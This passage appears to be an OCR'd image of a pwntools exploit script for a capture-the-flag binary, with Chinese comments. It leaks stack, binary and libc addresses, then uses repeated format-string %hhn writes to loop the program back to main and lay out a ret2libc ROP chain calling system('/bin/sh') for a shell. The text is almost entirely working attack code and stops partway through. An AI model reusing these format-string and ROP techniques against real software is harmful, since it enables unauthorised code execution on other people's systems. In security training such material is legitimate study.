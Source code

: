 ```c
sl(payload)
#  input()
stack_buf = int(ru(b".", "drop"), 16) - 0x120
elf_base  = int(ru(b".", "drop"), 16) - 0x1307
libc_base = int(ru(b".", "drop"), 16) - 0x29d90
lg("stack_buf")
lg("elf_base")
lg("libc_base")
ru(b'? Why is your name so strange? I want your real name!!\n')
current_n = 0
payload = generate_hhn_payload(0xc0, 2)   # 这里构造出循环使程序返回 main 函数
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 0x118)
sl(payload)

pop_rdi_ret = libc_base + 0x000000000002a3e5
ret_addr    = pop_rdi_ret + 1
bin_sh_str  = libc_base + 0x1d8698
system_addr = libc_base + 331104
#  bin_sh_str  = libc_base + next(libc.search(b"/bin/sh\x00"))
#  system_addr = libc_base + libc.sym["system"]

# 接下来就是常规构造 ROP 了
# 目标是在栈上布置能够 getshell 的 ROP 链（参考 [参考 1-3 ret2libc]）
# 最后再写返回地址为 ret 触发

# 现在相当于每次循环时有两次触发格式化字符串漏洞的机会
## 第一次改返回地址构造循环
ru(b"What's your name?\n");
current_n = 0
payload = generate_hhn_payload(0xc0, 2)
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 0x118)
sl(payload)
## 第二次向下写入数据
ru(b'? Why is your name so strange? I want your real name!!\n')
current_n = 0
payload = generate_hhn_payload(0xc0,  ( (pop_rdi_ret) & 0xff ) )
payload += generate_hhn_payload(0xc8, ( (pop_rdi_ret >> 8) & 0xff ) )
payload += generate_hhn_payload(0xd0, ( (pop_rdi_ret >> 16) & 0xff ))
payload += generate_hhn_payload(0xd8, ( (pop_rdi_ret >> 24) & 0xff ))
payload += generate_hhn_payload(0xe0, ( (pop_rdi_ret >> 32) & 0xff ))
payload += generate_hhn_payload(0xe8, ( (pop_rdi_ret >> 40) & 0xff ))
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 8 + 0x118)
payload += p64(stack_buf + 8 + 0x119)
payload += p64(stack_buf + 8 + 0x11a)
payload += p64(stack_buf + 8 + 0x11b)
payload += p64(stack_buf + 8 + 0x11c)
payload += p64(stack_buf + 8 + 0x11d)
sl(payload)

'''
重复上面的步骤第一步构造循环第二步写入 ROP 链
'''

ru(b"What's your name?\n");
current_n = 0
payload = generate_hhn_payload(0xc0, 2)
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 0x118)
sl(payload)
ru(b'? Why is your name so strange? I want your real name!!\n')
```